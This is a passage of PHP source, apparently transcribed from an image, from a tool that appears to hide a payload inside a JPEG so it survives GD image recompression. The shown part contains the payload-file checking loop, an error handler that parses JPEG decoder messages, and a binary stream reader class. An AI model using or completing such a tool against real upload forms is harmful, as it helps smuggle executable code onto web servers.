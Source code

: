 ```php
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');
 
    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }
 
    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }
 
    class DataInputStream {
        private $binData;
        private $order;
        private $size;
 
        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }
 
        public function seek() {
            return ($this->size - strlen($this->binData));
        }
 
        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }
 
        public function readByte() {
            if($this->eof()) {
```
